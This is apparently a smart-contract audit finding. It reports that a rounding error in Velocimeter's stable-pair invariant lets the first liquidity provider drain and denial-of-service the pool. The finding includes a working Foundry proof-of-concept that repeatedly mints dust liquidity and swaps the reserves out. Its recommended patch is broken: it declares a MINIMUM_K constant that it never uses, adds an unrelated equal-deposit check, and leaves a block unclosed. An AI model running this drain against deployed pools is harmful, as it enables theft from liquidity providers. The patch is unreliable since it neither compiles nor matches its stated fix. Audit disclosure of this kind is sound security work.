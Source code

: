 Fast Black Eel

High

# First liquidity provider of a stable pair can DOS the pool

## Summary
The first liquidity provider can DOS the pair by: 1.mint a small amount of liquidity to the pool, 2. Steal whatever is
left in the pool, 3. Repeat step 1, and step 2 until the overflow of the total supply and dos the pool.

## Vulnerability Detail
The invariant k of a stable pool is calculated as follow `Pair.sol#L403`
```solidity
function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```
The value of `_a = (x * y ) / 1e18 = 0` due to rounding error when `x*y < 1e18`. The rounding error can lead to
the invariant `k` of stable pools equals zero, and the trader can steal whatever is left in the pool.
The first liquidity provider can DOS the pair by: 
1.mint a small amount of liquidity to the pool
2. Steal whatever is left in the pool
3. Repeat step 1, and step 2 until the overflow of the total supply.

To prevent the issue of rounding error, the reserve of a pool should never go too small. The mint function which was
borrowed from uniswapV2 has a minimum liquidity check of `sqrt(a * b) > MINIMUM_LIQUIDITY;` This, however,
isn't safe enough to protect the invariant formula of stable pools

## POC
Add the test to `OptionTokenV4.t.sol` and run with `forge test --mt testDestroyPair  -vvvv`
```solidity
function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.mint(address(pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.mint(address(pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
}
    function testDestroyPair() public {
        Pair pairFraxDai;
        vm.startPrank(address(owner),address(owner));
        deployCoins();
        address addressFromfactory = factory.createPair(address(FRAX), address(DAI), true);
        pairFraxDai = Pair(addressFromfactory);
        vm.stopPrank();

        for(uint i = 0; i < 10; i++) {
            DAI.mint(address(pairFraxDai), 10_000_000);
            FRAX.mint(address(pairFraxDai), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint liquidity = pairFraxDai.mint(address(this));
            console.log("pair:", address(pairFraxDai), "liquidity:", liquidity);
            console.log("total liq:", pairFraxDai.balanceOf(address(this)));
            drainPair(pairFraxDai, FRAX.balanceOf(address(pairFraxDai)) , DAI.balanceOf(address(pairFraxDai)));
            console.log("DAI balance:", DAI.balanceOf(address(pairFraxDai)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pairFraxDai)));
            require(DAI.balanceOf(address(pairFraxDai)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pairFraxDai)) == 2, "should drain FRAX balance");
        }
        DAI.mint(address(pairFraxDai), 1 ether);
        FRAX.mint(address(pairFraxDai), 1 ether);
        vm.expectRevert();
        pairFraxDai.mint(address(this));
    }
```
## Impact
* The stable pair pool can be dos by first liquidity provider
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/Pair.sol#L250-L269
## Tool used

Manual Review

## Recommendation
Recommend to add  restrictions on the first lp of stable pools:
* Invariant _k should be larger than the `MINIMUM_K` where `MINIMUM_K = 10**10`

In `Pair.sol`
```diff
+ uint256 internal constant MINIMUM_K = 10**10;
function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
+            if (stable) {
+                require(
+                   (_amount0 * 1e18) / decimals0 == (_amount1 * 1e18) / decimals1,
+                    "Pair: stable deposits must be equal"
+               );
              
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
        require(liquidity > 0, 'ILM'); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
```